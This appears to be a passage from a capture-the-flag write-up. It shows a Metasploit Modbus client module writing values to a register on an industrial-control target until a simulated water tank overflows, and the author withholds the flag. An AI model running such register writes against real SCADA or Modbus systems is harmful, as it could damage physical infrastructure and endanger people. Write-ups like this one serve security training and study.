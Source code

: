 ```bash


View the full module info with the info -d command.

msf6 auxiliary(scanner/scada/modbusclient) > run
[*] Running module against 34.28.96.173

[*] 34.28.96.173:502 - Sending WRITE REGISTER...
[+] 34.28.96.173:502 - Value 400 successfully written at registry address 2
[*] Auxiliary module execution completed
```
Results in the update command returning: `{"security":false,"temperature":14,"water_level":400}`. However this was not enough to overflow the tank. Lets try 450.

450 did the trick! Flag: Not a dynamic flag, wont share..
